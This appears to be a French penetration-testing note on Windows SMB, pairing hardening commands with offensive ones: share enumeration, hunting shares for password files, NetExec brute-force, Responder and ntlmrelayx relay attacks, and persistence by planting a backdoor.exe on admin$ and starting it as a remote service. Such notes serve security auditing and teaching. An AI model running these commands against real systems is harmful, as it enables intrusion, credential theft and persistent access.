

Le protocole **SMB** (Server Message Block) est utilisé sous **Windows** pour le partage de fichiers, d'imprimantes et la gestion des utilisateurs. Une mauvaise configuration peut exposer des fichiers sensibles, permettre une élévation de privilèges ou une exécution de code à distance.



> [!danger] SMBv1
> **SMBv1** est obsolète et hautement vulnérable à **EternalBlue** (**MS17-010**).

> [!warning] SMB Signing
> L'absence de **SMB Signing** expose le réseau aux attaques de type **Relay** ou **MITM**.

> [!info] Null Sessions
> Les **Null Sessions** permettent souvent une énumération anonyme des comptes utilisateurs.

> [!note] Registres
> **Attention :** La modification des registres (**RestrictAnonymous**) peut impacter les services legacy.

## Configuration SMB

### Vérification des versions
Lister les versions **SMB** activées sur le système :

```powershell
Get-SmbServerConfiguration | Select EnableSMB1Protocol, EnableSMB2Protocol
```

Désactiver **SMBv1** :

```powershell
Set-SmbServerConfiguration -EnableSMB1Protocol $false -Force
```

### SMB Signing
Vérifier si **SMB Signing** est activé :

```powershell
Get-SmbServerConfiguration | Select RequireSecuritySignature
```

Forcer **SMB Signing** :

```powershell
Set-SmbServerConfiguration -RequireSecuritySignature $true -Force
```

### Null Sessions
Vérifier l'état des **Null Sessions** via le registre :

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RestrictAnonymous
```

Bloquer les **Null Sessions** :

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RestrictAnonymous /t REG_DWORD /d 1 /f
```

## Énumération des partages et sessions

### Gestion des partages locaux
Lister les partages locaux :

```powershell
Get-SmbShare
```

Lister les permissions d'un partage spécifique :

```powershell
Get-SmbShareAccess -Name "Public"
```

Révoquer les accès d'un compte sur un partage :

```powershell
Revoke-SmbShareAccess -Name "Public" -AccountName "Everyone" -Force
```

### Sessions actives
Voir les sessions **SMB** actives localement :

```powershell
Get-SmbSession
```

## Accès et énumération distants

Lister les partages distants accessibles :

```cmd
net view \\target.com
```

Lister les sessions **SMB** actives :

```cmd
net session
```

Monter un partage distant :

```cmd
net use Z: \\target.com\public /user:administrator Password123
```

Démonter un partage :

```cmd
net use Z: /delete
```

## Recherche de fichiers sensibles

Rechercher des fichiers contenant des mots de passe sur un partage distant :

```powershell
Get-ChildItem -Path \\target.com\public -Recurse -Filter "*password*"
```

## Analyse des vulnérabilités (MS17-010, etc.)
L'audit des vulnérabilités SMB se concentre sur l'identification de versions obsolètes ou de failles critiques comme **MS17-010**.

```bash
# Utilisation de nmap pour détecter les vulnérabilités SMB
nmap -p 445 --script smb-vuln-ms17-010 <target_ip>
nmap -p 445 --script smb-protocols <target_ip>
```

## Exploitation via outils externes (Impacket, NetExec)
L'utilisation d'outils tiers permet une interaction plus poussée avec le protocole SMB. Voir également **SMB Enumeration (Linux)**.

```bash
# Énumération via NetExec (anciennement CrackMapExec)
nxc smb <target_ip> -u '' -p '' --shares
nxc smb <target_ip> -u 'user' -p 'pass' --shares

# Utilisation d'Impacket pour lister les partages
python3 smbclient.py domain/user:password@<target_ip>
```

## Attaques par force brute (SMB)
Si les politiques de verrouillage de compte sont permissives, le brute-force est une option viable.

```bash
# Brute-force avec NetExec
nxc smb <target_ip> -u users.txt -p passwords.txt --continue-on-success
```

## SMB Relay Attacks
Si le **SMB Signing** est désactivé, il est possible de relayer des authentifications NTLM. Voir la note dédiée : **SMB Relay Attacks**.

```bash
# Configuration de Responder pour capturer les hashes
sudo responder -I eth0 -rdw

# Utilisation de ntlmrelayx pour relayer vers la cible
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

## Techniques de persistence via SMB
Une fois l'accès obtenu, le dépôt de fichiers malveillants sur des partages accessibles en écriture permet une exécution distante.

```powershell
# Copie d'un binaire malveillant sur un partage
copy backdoor.exe \\target.com\admin$\system32\backdoor.exe

# Création d'un service distant via sc.exe (nécessite des droits admin)
sc \\target.com create BackdoorService binPath= "C:\Windows\System32\backdoor.exe"
sc \\target.com start BackdoorService
```

## Récapitulatif des commandes

| Étape | Commande |
| :--- | :--- |
| Vérifier versions SMB | `Get-SmbServerConfiguration` |
| Désactiver SMBv1 | `Set-SmbServerConfiguration -EnableSMB1Protocol $false -Force` |
| Lister partages locaux | `Get-SmbShare` |
| Lister sessions actives | `Get-SmbSession` |
| Vérifier SMB Signing | `Get-SmbServerConfiguration` |
| Forcer SMB Signing | `Set-SmbServerConfiguration -RequireSecuritySignature $true -Force` |
| Vérifier Null Sessions | `reg query HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RestrictAnonymous` |
| Bloquer Null Sessions | `reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RestrictAnonymous /t REG_DWORD /d 1 /f` |
| Lister partages distants | `net view \\target.com` |
| Monter partage distant | `net use Z: \\target.com\public /user:administrator Password123` |
| Rechercher fichiers | `Get-ChildItem -Path \\target.com\public -Recurse -Filter "*password*"` |

Ces techniques s'inscrivent dans une méthodologie globale d'**Active Directory Enumeration** et de **Windows Post-Exploitation**. Pour les vecteurs d'attaque réseau, se référer aux notes sur les **SMB Relay Attacks**.